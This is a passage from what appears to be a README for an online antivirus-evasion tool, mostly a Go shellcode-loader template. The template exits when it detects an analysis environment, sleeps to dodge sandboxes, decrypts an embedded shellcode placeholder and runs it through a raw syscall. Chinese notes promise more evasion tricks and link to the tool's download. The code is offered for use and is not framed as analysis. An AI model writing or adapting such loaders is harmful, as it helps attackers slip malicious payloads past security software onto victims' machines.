 ```bash
    syscall.SyscallN(Ptr1, 0, 0, 0, 0)
}


func Sleeeep()  {
    res := 1
    for i := 0; i < 5; i++ {
        number := rand.Intn(900) + 100
        res *= number
    }
    time.Sleep(10 * time.Second)
}

func main() {

    args := os.Args[0]
    if (args[10] == 92 && (args[0] == 99 || args[0] == 67)) {
        os.Exit(0)
    }

    Sleeeep()

    ciphertext := []byte{{{Shellcode}}}

    byteData := DecryptData(ciphertext)

    Ldr1(byteData)
}
```

现有的代码已经完成基本操作，只需要维护模板即可。  
TODO

-   更多对抗方式持续爆肝中

下载地址 [https://github.com/yutianqaq/AVEvasionCraftOnline](https://github.com/yutianqaq/AVEvasionCraftOnline)
